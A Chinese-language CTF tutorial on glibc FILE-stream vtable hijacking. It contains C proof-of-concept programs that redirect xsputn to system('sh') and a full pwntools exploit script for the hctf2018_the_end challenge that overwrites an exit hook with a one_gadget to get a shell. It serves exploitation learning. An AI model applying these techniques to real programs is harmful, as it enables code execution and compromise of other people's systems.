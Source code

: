 # 伪造 vtable 劫持程序流程

## 简介：

1. 前面我们介绍了 Linux 中文件流的特性（FILE），我们可以得知 Linux 中的一些常见的 IO 操作函数都需要经过 FILE 结构进行处理。尤其是_IO_FILE_plus 结构中存在 vtable，一些函数会取出 vtable 中的指针进行调用。

2. 因此伪造 vtable 劫持程序流程的中心思想就是针对_IO_FILE_plus 的 vtable 动手脚，通过**把 vtable 指向我们控制的内存**，并在其中**布置函数指针**来实现。
3. 因此 vtable 劫持分为两种，一种是直接**改写** vtable 中的**函数指针**，通过任意地址写就可以实现。另一种是**覆盖 vtable 的指针**指向我们控制的内存，然后在其中**布置函数指针**。

## 实践：

1. 这里演示了修改 vtable 中的指针，首先需要知道_IO_FILE_plus 位于哪里，对于 fopen 的情况下是位于堆内存，对于 stdin\stdout\stderr 是位于 libc.so 中。

   ```c
   int main(void)
   {
       FILE *fp;
       long long *vtable_ptr;
       fp=fopen("123.txt","rw");
       vtable_ptr=*(long long*)((long long)fp+0xd8);     //get vtable
       vtable_ptr[7]=0x41414141; //xsputn
       printf("call 0x41414141");
   }
   ```

   根据 vtable 在_IO_FILE_plus 的偏移得到 vtable 的地址，在 64 位系统下偏移是 0xd8。之后需要搞清楚欲劫持的 IO 函数会调用 vtable 中的哪个函数。关于 IO 函数调用 vtable 的情况已经在 FILE 结构介绍一节给出了，知道了 printf 会调用 vtable 中的 xsputn，并且 xsputn 的是 vtable 中第八项之后就可以写入这个指针进行劫持。

   并且在 xsputn 等 vtable 函数进行调用时，传入的**第一个参数其实是对应的_ IO_FILE_plus 地址**。比如这例子调用 printf，传递给 vtable 的**第一个参数就是_ IO_2_1_stdout_**的地址。

   调试：

   ![image-20240807155124494](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202408071551066.png)

   利用这点可以实现给**劫持的 vtable 函数传參**，比如 ：

   ```c
   #include <stdlib.h>
   #include <stdio.h>
   #include <string.h>
   #define system_ptr 0x7ffff78453a0;
   int main(void)
   {
       FILE *fp;
       long long *vtable_ptr;
       fp=fopen("123.txt","rw");
       vtable_ptr=*(long long*)((long long)fp+0xd8);     //get vtable
       memcpy(fp,"sh",3);
       vtable_ptr[7]=system_ptr; //xsputn
       fwrite("hi",2,1,fp);
   }
   
   ```

   ![image-20240807160015251](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202408071600413.png)

   ![image-20240807160145961](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202408071601762.png)

   最后触发：

   ![image-20240807160301054](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202408071603515.png)



2. 但是在目前 libc2.23 版本下，位于 **libc 数据段的 vtable 是不可以进行写入**的（没权限）。不过，通过在可控的内存中**伪造 vtable** 的方法依然可以实现利用：

   ![image-20240807160635653](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202408071606364.png)

   ```c
   #include <stdlib.h>
   #include <stdio.h>
   #include <string.h>
   #define system_ptr 0x7ffff78453a0;
   int main(void)
   {
       FILE *fp;
       long long *vtable_addr,*fake_vtable;
       fp=fopen("123.txt","rw");
       fake_vtable=malloc(0x40);//伪造vtable
       vtable_addr=(long long *)((long long)fp+0xd8);     //vtable offset
       vtable_addr[0]=(long long)fake_vtable;//修改原vtable指针，指向伪造的vtable，后面系统取函数指针时就会去伪造的vtable中取
       memcpy(fp,"sh",3);
       fake_vtable[7]=system_ptr; //xsputn
       fwrite("hi",2,1,fp);
   }
   ```

   原vtable：
   
   ![image-20240807161845863](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202408071618551.png)
   
   伪造的vtable：
   
   ![image-20240807161447568](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202408071614188.png)
   
   我们首先分配一款内存来存放**伪造的 vtable**，之后**修改_IO_FILE_plus 的 vtable 指针指向这块内存**。因为 vtable 中的指针我们放置的是 system 函数的地址，因此需要传递参数 "/bin/sh" 或 "sh"。
   
   因为 vtable 中的函数调用时会把对应的**_ IO_FILE_plus 指针作为第一个参数传递**，因此这里我们把 "sh" 写入_IO_FILE_plus 头部。之后对 fwrite 的调用就会经过我们伪造的 vtable 执行 system("sh")。
   
   同样，如果程序中不存在 fopen 等函数创建的_ IO_FILE 时，也可以选择 stdin\stdout\stderr 等位于 libc.so 中的_IO_FILE，这些流在 printf\scanf 等函数中就会被使用到。在 libc2.23 之前，这些 vtable 是可以写入并且不存在其他检测的。



## 例题：hctf2018_the_end

题目地址：[hctf2018_the_end](https://buuoj.cn/challenges#hctf2018_the_end)

### 思路：

1. 利用的是在程序调用 `exit` 后，会遍历 `_IO_list_all` ，调用 `_IO_2_1_stdout_` 下的 `vtable` 中 `_setbuf` 函数。

   ![image-20240808111424856](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202408081114995.png)

2. 在原vtable附近找一个新的vtable，用来伪造vtable（只用修改后两位）
3. 在伪造的vtable中修改_setbuf函数指向one_gadget（只用修改后三位）



```py
from pwn import *
import numpy as np
# from LibcSearcher import *
context(os='linux', arch='amd64', log_level='debug')

def debug():
    print(proc.pidof(p))
    pause()

# p = remote("node5.buuoj.cn",26690)
# libc = ELF('./libc-2.27.so')
p = process("./pwn") 
libc = ELF("/home/kali/Desktop/glibc-all-in-one/libs/2.27-3ubuntu1_amd64/libc-2.27.so")
# elf = ELF("./pwn")

# 泄漏libc地址
p.recvuntil(b"gift ")
addr = eval((p.recv(14)).decode())
success("main_arena_unsortbin_addr==>"+hex(addr))
sleep_addr = libc.symbols["sleep"]
libc_base = addr-sleep_addr
success("libc_addr==>"+hex(libc_base))
 
#计算_IO_2_1_stdout_地址
IO_2_1_stdout_addr = libc_base + libc.sym["_IO_2_1_stdout_"]
success("IO_2_1_stdout_addr==>" + hex(IO_2_1_stdout_addr))
vtable_addr = libc_base + 0x3EC838
success("vtable_addr==>" + hex(vtable_addr))

# 修改vtable指针，指向伪造的vtable
fake_addr = libc_base + 0x3c3fb0
success("fake_addr==>" + hex(fake_addr))
fake_setbuf_addr = libc_base + 0x3EB058
success("fake_setbuf_addr==>" + hex(fake_setbuf_addr))
exit_hook = libc_base + 0x628F68 - 8
success("exit_hook==>" + hex(exit_hook))
# p.send(p64(vtable_addr))
# p.send(p8(fake_addr&0xff))
# p.send(p64(vtable_addr+1))
# p.send(p8((fake_addr>>8)&0xff))

# #修改伪造的vtable中的_setbuf指针，指向one_gadget
one_gadget = [0x4f2be,0x4f2c5,0x4f322,0x10a38c]
execve = libc_base + one_gadget[2]
# success("execve==>" + hex(execve))
# debug()
# p.send(p64(fake_setbuf_addr))
# p.send(p8(execve&0xff))
# p.send(p64(fake_setbuf_addr+1))
# p.send(p8((execve>>8)&0xff))
# p.send(p64(fake_setbuf_addr+2))
# p.send(p8((execve>>16)&0xff))
debug()
p.send(p64(exit_hook))
p.send(p8((execve)&0xff))
# sleep(1)
p.send(p64(exit_hook+1))
p.send(p8((execve>>8)&0xff))
print(hex(exit_hook+1))
p.send(p64(exit_hook+2))
p.send(p8((execve>>16)&0xff))
# debug()
p.send(p64(exit_hook+3))
p.send(p8((execve>>24)&0xff))
p.send(p64(exit_hook+4))
p.send(p8((execve>>32)&0xff))
# debug()
# p.sendline(b"exec 1>&0")
# p.sendline(b"cat flag")
p.interactive()
```

